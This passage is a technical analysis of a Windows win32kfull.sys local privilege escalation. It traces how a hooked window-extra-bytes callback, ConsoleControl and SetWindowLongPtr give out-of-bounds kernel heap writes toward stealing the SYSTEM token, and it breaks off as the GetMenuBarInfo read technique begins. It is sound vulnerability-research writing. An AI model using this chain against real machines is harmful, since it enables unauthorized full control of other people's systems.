## 1. Vulnerability Description

The vulnerability exists in the Windows graphics driver `win32kfull.sys`. When `win32kfull!NtUserCreateWindowEx` is called to create a window with `tagWND→cbWndExtra≠0`, the function calls `win32kfull!xxxClientAllocWindowClassExtraBytes` to callback the user-mode function `user32.dll!__xxxClientAllocWindowClassExtraBytes` for memory allocation. An attacker can hook this user-mode function and call `ntdll!NtCallbackReturn` to return an arbitrary value to the kernel. When `tagWND→flag` contains the 0x800 flag, this return value is treated as an offset relative to the kernel desktop heap base address. A user-mode call to `NtUserConsoleControl` can modify `tagWND→flag` to include 0x800, causing the return value to be used directly for heap memory addressing, triggering an out-of-bounds memory access. Through out-of-bounds read/write, an attacker can copy the SYSTEM process token to the current process to achieve privilege escalation.

## 2. Affected Versions

Windows Server, version 20H2 (Server Core Installation)

Windows 10 Version 20H2 for ARM64-based Systems

Windows 10 Version 20H2 for 32-bit Systems

Windows 10 Version 20H2 for x64-based Systems

Windows Server, version 2004 (Server Core installation)

Windows 10 Version 2004 for x64-based Systems

Windows 10 Version 2004 for ARM64-based Systems

Windows 10 Version 2004 for 32-bit Systems

Windows Server, version 1909 (Server Core installation)

Windows 10 Version 1909 for ARM64-based Systems

Windows 10 Version 1909 for x64-based Systems

Windows 10 Version 1909 for 32-bit Systems

Windows Server 2019 (Server Core installation)

Windows Server 2019

Windows 10 Version 1809 for ARM64-based Systems

Windows 10 Version 1809 for x64-based Systems

Windows 10 Version 1809 for 32-bit Systems

Windows 10 Version 1803 for ARM64-based Systems

Windows 10 Version 1803 for x64-based Systems

## 3. Environment Setup

cn_windows_10_consumer_editions_version_1809_updated_sept_2019_x64_dvd_ecb7b897.iso

## 4. Exploitation Effect

Privileges before triggering the vulnerability:



Privileges after triggering the vulnerability:



## 5. Prerequisites

### 1. tagWND Structure

Windows uses the `tagWND` structure to describe each window. This structure can be seen in a relatively complete form on Win7 after loading the `win32k.sys` PDB, but in later versions the PDB file no longer shows the complete `tagWND`. Below is a fairly complete `tagWND` structure summarized by predecessors:

```bash
ptagWND(user layer)
    0x10 unknown
        0x00 pTEB
            0x220 pEPROCESS(of current process)
    0x18 unknown
        0x80 kernel desktop heap base
    0x28 ptagWNDk(kernel layer)
        0x00 hwnd
        0x08 kernel desktop heap base offset
        0x18 dwStyle
        0x58 Window Rect left
        0x5C Window Rect top
        0x98 spMenu(uninitialized)
        0xC8 cbWndExtra
        0xE8 dwExtraFlag
        0x128 pExtraBytes
    0x90 spMenu(analyzed by in1t)
        0x00 hMenu
        0x18 unknown0
            0x100 unknown
                0x00 pEPROCESS(of current process)
        0x28 unknown1
            0x2C cItems(for check)
        0x40 unknown2(for check)
        0x44 unknown3(for check)
        0x50 ptagWND
        0x58 rgItems
            0x00 unknown(for exploit)
        0x98 spMenuk
            0x00 pSelf
```

When `tagWND` is referenced in the disassembly code later, you can refer back to this structure.

### 2. HMValidateHandle

Refer to [HMValidateHandle Technique]().

## 6. Vulnerability Analysis

### 1. CreateWindowEx Function Implementation

This vulnerability is caused by the `CreateWindowEx` function. `CreateWindowEx` ultimately calls `win32kfull!xxxCreateWindowEx`. When a window with extra memory is created through this function, `xxxCreateWindowEx` calls `xxxClientAllocWindowClassExtraBytes` to allocate the corresponding extra memory, and saves the return value to the `ptagWND+0x28+0x128` position.

By referencing the `tagWND` structure above, we know that `ptagWND+0x28+0x128` is `ptagWND->ptagWNDk->pExtraBytes`. Depending on the `dwExtraFlag` flag at `ptagWND+0x28+0xE8`, this field stores either the memory pointer for the window's extra memory or the offset relative to the kernel desktop heap base address.

Through disassembly, we can see that `win32kfull!xxxClientAllocWindowClassExtraBytes` is only called to set `ptagWNDk->pExtraBytes` when `ptagWND->ptagWNDk->cbWndExtra` is non-zero:



Inequality operator overload (0xA1 - 0x79 = 0x28):



`win32kfull!xxxClientAllocWindowClassExtraBytes` implementation:



- Line 22: Through `nt!KeUserModeCallback[11]`, it calls back the user-mode function recorded at entry 123 in the `PEB.KernelCallbackTable`, which is the pointer to `user32!_xxxClientAllocWindowClassExtraBytes`
- Line 26: The length of information returned by `user32!_xxxClientAllocWindowClassExtraBytes` should be 0x18 bytes
- Line 29: The address storing the return information must be less than `MmUserProbeAddress` (0x7fffffff0000)
- Line 31: The first pointer type in the return information points to the user heap space allocated in user mode
- Line 34: Calls `ProbeForRead` to verify that the allocated user heap address + length is less than `MmUserProbeAddress` (0x7fffffff0000)
- Lines 32, 35: `xxxClientAllocWindowClassExtraBytes` returns the user heap space address

Using a diagram from @iamelli0t to illustrate this process:



### 2. Setting pExtraBytes via NtCallbackReturn

From the analysis above, we know that the return value from calling back `user32!_xxxClientAllocWindowClassExtraBytes` is directly assigned to `pExtraBytes`. Let's look at this user-mode callback function's implementation:



- Line 9: Allocates user heap space of `cbWndExtra` size via `RtlAllocateHeap`
- Line 10: Calls `NtCallbackReturn` to return the allocated space address to the kernel layer

After `win32kfull!xxxClientAllocWindowClassExtraBytes` returns, `ptagWND→ptagWNDk→pExtraBytes` is assigned the allocated user space heap address:



It's not hard to see that by hooking `user32!_xxxClientAllocWindowClassExtraBytes` at the user layer, one can control the value of `ptagWND→ptagWNDk→pExtraBytes`, while the value of `ptagWND→ptagWNDk→cbWndExtra` can be specified when creating the window's `WNDCLASSEX`.

As mentioned earlier, the kernel only interprets `pExtraBytes` as an offset when `dwExtraFlag` contains a specific flag. This offset is relative to the kernel heap space.

Now suppose we can modify `dwExtraFlag` and combine it with a way to write data to the memory pointed to by the `pExtraBytes` offset — we can corrupt kernel heap memory.

### 3. Controlling dwExtraFlag via ConsoleControl

`ConsoleControl` is an undocumented function in user32.dll that calls `win32u!NtUserConsoleControl` to enter kernel mode:



`win32u!NtUserConsoleControl` is renamed during export; its original name is `win32u!ZwUserConsoleControl`:



It ultimately enters `win32kfull!NtUserConsoleControl`, which takes three parameters: the first parameter is a function ID, the second is a console process information structure array, and the third is the length of the console process information structure array. The implementation:



From lines 14, 16, and 18 we can see:

- The function ID must be less than 6
- The console process information structure array must not exceed 0x18

Only when both conditions are met will the parameters be passed to `win32kfull!xxxConsoleControl`. This function performs different operations based on the function ID (function IDs 1-6); the 6th one is related to desktop extra memory:



Analyzing this code segment, we can see that function 6 calls `DesktopAlloc` to allocate memory in the kernel heap space, recalculates the offset and assigns it to `ptagWNDk→pExtraBytes`, and modifies `ptagWNDk→dwExtraFlag` to include 0x800.

### 4. Kernel Heap Out-of-Bounds Write via SetWindowLong

From the POC, we can see that `user32!SetWindowLong` can be used to modify the memory pointed to by the `pExtraBytes` offset, achieving kernel heap out-of-bounds writes.

In Unicode mode, `user32!SetWindowLong` points to `user32!SetWindowLongW`, implemented as follows:



It finally calls `win32u!NtUserSetWindowLong` to enter kernel mode `win32kfull!NtUserSetWindowLong`, where `hwnd` is the window handle, `nIndex` is the offset for writing to extra memory, and `value` is the value to write. Implementation:



Through `ValidateHwndEx`, the `tagWND` pointer (`ptagWND`) corresponding to the `hwnd` handle can be obtained. Finally, `ptagWND`, `nIndex`, and `value` are passed to `win32kfull!xxxSetWindowLong`. Partial implementation of this function:



Two conditions must be met to use `kernel_desk_heap_base_addr+pExtraBytes+nIndex` addressing:

1. **0 < nIndex + 4 < cbWndExtra**: `nIndex` is controlled through parameters; `cbWndExtra` is specified when defining the window class
2. **dwExtraFlag&0x800=0**: `dwExtraFlag` must contain the 0x800 flag. This variable value cannot be directly controlled but can be indirectly controlled through other API functions

The `value` is finally written to the corresponding memory location.

From the previous analysis, we know that the value of `pExtraBytes` can be controlled through `NtCallbackReturn`. If `dwExtraFlag` can also be controlled, arbitrary write operations to the kernel heap space become possible.

A similar function to `SetWindowLong` is `SetWindowLongPtr`, which has a similar implementation. The latter can modify the content pointed to by kernel pointers, and the EXP uses `SetWindowLongPtr` for all pointer modification operations.

### 5. Kernel Heap Out-of-Bounds Read via GetMenuBarInfo

The technique of using `user32.dll!GetMenuBarInfo` for arbitrary address reads is disclosed for the first time here — it hasn't been seen before. This function directly calls `ntdll.dll!NtUserGetMenuBarInfo` to enter kernel mode:



The corresponding kernel function is in `win32kfull.sys!NtUserGetMenuBarInfo`, which continues to call `win32kfull.sys!xxxGetMenuBarInfo`:

